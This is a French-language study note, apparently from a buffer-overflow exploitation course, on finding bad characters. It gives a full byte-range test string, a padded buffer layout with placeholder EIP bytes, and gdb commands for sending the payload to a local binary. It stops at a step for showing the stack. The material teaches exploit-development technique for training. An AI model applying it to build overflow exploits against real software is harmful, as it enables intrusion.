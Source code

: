 exemple avec 1036 octets pour arriver à l'EIP
![[Pasted image 20250523011000.png]]

# 3. Identifier les mauvais caractères


Identifier les caractères rejetés par l'applications (entre x00 et xff)

1. Genérer la liste de caractère suivante 

```shell-session
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

2. Calculer la longueur de char (logiquement 256 octets)

```shell-session
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

3. Recalculer la taille du buffer

```shell-session
Buffer = "\x55" * (<nb_caractères> - 256) = ?
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   EIP = "\x66" * 4
```

4. Afficher la fonction main

```shell-session
(gdb) disas main
```

5. Mettre un breakpoint sur la première fonction

```shell-session
(gdb) break <funct> 
```

6. Send CHARS

```shell-session
(gdb) run $(python -c 'print "\x55" * (<nb_caractères> - 256) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```


7. Afficher la stack
